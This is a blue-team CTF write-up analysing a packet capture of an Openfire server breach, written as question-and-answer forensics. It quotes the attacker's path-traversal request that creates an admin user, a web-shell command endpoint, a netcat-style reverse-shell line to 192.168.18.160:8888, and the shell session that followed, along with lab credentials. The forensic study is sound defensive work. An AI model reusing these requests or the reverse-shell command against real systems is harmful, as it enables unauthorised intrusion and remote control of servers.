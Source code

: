https://cyberdefenders.org/blueteam-ctf-challenges/openfire

Scenario:

>As a cybersecurity analyst, you are tasked with investigating a data breach targeting your organization’s Openfire messaging server. Attackers have exploited a vulnerability in the server, compromising sensitive communications and potentially exposing critical data. Your task is to analyze the provided network capture files using Wireshark. Identify evidence of the exploitation, trace the attacker’s actions, and uncover indicators of compromise.

**Q1: What is the CSRF token value for the first login request?**

I started with the basic Wireshark query I typically use to review a packet capture: 

```
(http.request or tls.handshake.type eq 1) and !(ssdp)
```

Here's an excerpt for the first ten rows (I've removed unnecessary TLS and QUIC rows for clarity), ordered by timestamp:

| Time      | Source         | Destination    | Protocol | Length | Info                                                         |
| --------- | -------------- | -------------- | -------- | ------ | ------------------------------------------------------------ |
| 57.461072 | 192.168.18.155 | 185.125.190.48 | HTTP     | 141    | GET / HTTP/1.1                                               |
| 68.406664 | 192.168.18.1   | 192.168.18.155 | HTTP     | 640    | GET /index.jsp HTTP/1.1                                      |
| 68.421954 | 192.168.18.1   | 192.168.18.155 | HTTP     | 657    | GET /login.jsp?url=%2Findex.jsp HTTP/1.1                     |
| 83.248991 | 192.168.18.160 | 34.107.221.82  | HTTP     | 349    | GET /success.txt?ipv4 HTTP/1.1                               |
| 83.249431 | 192.168.18.160 | 34.107.221.82  | HTTP     | 349    | GET /success.txt?ipv4 HTTP/1.1                               |
| 87.179985 | 192.168.18.155 | 192.168.18.1   | HTTP     | 862    | POST /login.jsp HTTP/1.1 (application/x-www-form-urlencoded) |
| 87.197924 | 192.168.18.1   | 192.168.18.155 | HTTP     | 676    | GET /index.jsp HTTP/1.1                                      |
| 88.448527 | 192.168.18.155 | 34.107.221.82  | HTTP     | 355    | GET /canonical.html HTTP/1.1                                 |
| 89.515017 | 192.168.18.155 | 34.107.221.82  | HTTP     | 372    | GET /success.txt?ipv4 HTTP/1.1                               |
| 89.657496 |                |                |          |        |                                                              |
| 92.758218 | 192.168.18.1   | 192.168.18.155 | HTTP     | 657    | GET /user-summary.jsp HTTP/1.1                               |

I follow the HTTP stream for the first packet with a POST request, which has the CSRF token for the first login request.

**Q2: What is the password of the first user who logged in?**

We can learn this by reviewing the Wireshark packet details pane section that reads `HTML Form URL Encoded: application/x-www-form-urlencoded` . Here's what that looks like, in part:

```
Frame 879: 862 bytes on wire (6896 bits), 862 bytes captured (6896 bits)
→ Ethernet II, Src: VMware_c0:00:08 (00:50:56:c0:00:08), Dst: VMware_c2:dd:f4 (00:0c:29:c2:dd:f4)
  → Internet Protocol Version 4, Src: 192.168.18.1, Dst: 192.168.18.155
    → Transmission Control Protocol, Src Port: 45220, Dst Port: 9090, Seq: 1, Ack: 1, Len: 808
      → Hypertext Transfer Protocol
        → POST /login.jsp HTTP/1.1\r\n
          → Host: 192.168.18.155:9090\r\n
          → Connection: keep-alive\r\n
          → Content-Length: 81\r\n
            → [Content length: 81]
          → Cache-Control: max-age=0\r\n
          → Upgrade-Insecure-Requests: 1\r\n
          → Origin: http://192.168.18.155:9090\r\n
          → Content-Type: application/x-www-form-urlencoded\r\n
          → User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36 Edg/127.0.0.0\r\n
          → Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7\r\n
          → Referer: http://192.168.18.155:9090/login.jsp\r\n
          → Accept-Encoding: gzip, deflate\r\n
          → Accept-Language: en-US,en;q=0.9,en-IN;q=0.8\r\n
          → Cookie: JSESSIONID=node@vie0vcha60j1zwmq44201iy82.node0; csrf=tmUJG9uym8oIOD\r\n
            → [Cookie pair: JSESSIONID=node@vie0vcha60j1zwmq44201iy82.node0]
            → [Cookie pair: csrf=tmUJG9uym8oIOD]
          → \r\n
          → [Response in frame: 884]
          → [Full request URI: http://192.168.18.155:9090/login.jsp]
          → File Data: 81 bytes
        → HTML Form URL Encoded: application/x-www-form-urlencoded
          → Form item: "login" = "true"
          → Form item: "csrf" = "tmUJG9uym8oIOD"
          → Form item: "username" = "admin"
          → Form item: "password" = "Admin@Passw0rd#@#"
```

**Q3: What is the 1st username that was created by the attacker?**

Following the Info column down the table, we eventually encounter a row that reads:

```
GET /setup/setup-s/%u002e%u002e/%u002e%u002e/user-create.jsp?csrf=yGWwGRL3IKMHPFX&username=3536rr&name=&email=&password=dc0b2y&passwordConfirm=dc0b2y&isadmin=on&create=%E5%88%9B%E5%BB%BA%E7%94%A8%E6%88%B7 HTTP/1.1\r\n
```

**Q4: What is the username that the attacker used to login to the admin panel?**

Like Q1, I looked at the Info column for another occurrence of `POST /login.jsp HTTP/1.1\r\n`, then found the username in the packet details pane.

**Q5: What is the name of the plugin that the attacker uploaded?**

As this is an upload, I assumed it would involve a POST request. Going further down the table, I encountered a row with this information in the Info column:

```
POST /plugin-admin.jsp?uploadplugin&csrf=kp87ERFbIG5hdA6 HTTP/1.1\r\n
```

Reviewing the packet details pane section that starts with `MIME Multipart Media Encapsulation, Type: multipart/form-data`, I was able to find the answer. I leave this as an exercise for the reader.

**Q6: What is the first command that the user executed?**

Like before, I look for a POST request in the Info column and find:

```
POST /plugins/openfire-plugin/cmd.jsp?action=command HTTP/1.1\r\n
```

Digging into the packet details pane, there's a field below HTTP:

```
HTML Form URL Encoded: application/x-www-form-urlencoded
→ Form item: "command" = "whoami"
  → Key: command
  → Value: whoami
```

**Q7: Which tool did the attacker use to get a reverse shell?**

Descending through the capture, there's another command executed that looks a bit like this: <command> 

```
<command> 192.168.18.160 8888 -e /bin/bash
```

**Q8: Which command did the attacker execute on the server to check for network interfaces?**

I used the following query to isolate the netcat traffic:

```
ip.src == 192.168.18.160 and tcp.port == 8888
```

Then I followed the TCP stream:

```
whoami

root

id

uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)

uname -a

Linux b0704a182efe 6.5.0-44-generic #44~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Tue Jun 18 14:36:16 UTC 2 x86_64 Linux

ifconfig

eth0      Link encap:Ethernet  HWaddr 02:42:AC:11:00:02  
          inet addr:172.17.0.2  Bcast:172.17.255.255  Mask:255.255.0.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1016 errors:0 dropped:0 overruns:0 frame:0
          TX packets:877 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:279686 (273.1 KiB)  TX bytes:974238 (951.4 KiB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)


ls

extra
openfire
openfire.sh
openfirectl

cd //
ls

bin
data
dev
etc
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var

cd root
ls
```
  

**Q9: What is the CVE of the vulnerability exploited?**

I learned this with a search engine query for "openfire cve". Based on the packet capture, I had suspected this was a vulnerability enabling unauthenticated users to perform privileged activities. Unfortunately, I lack a sophisticated understanding of Wireshark and web vulnerabilities, and am unable to identify the exploit/vulnerability relying on just a packet capture.
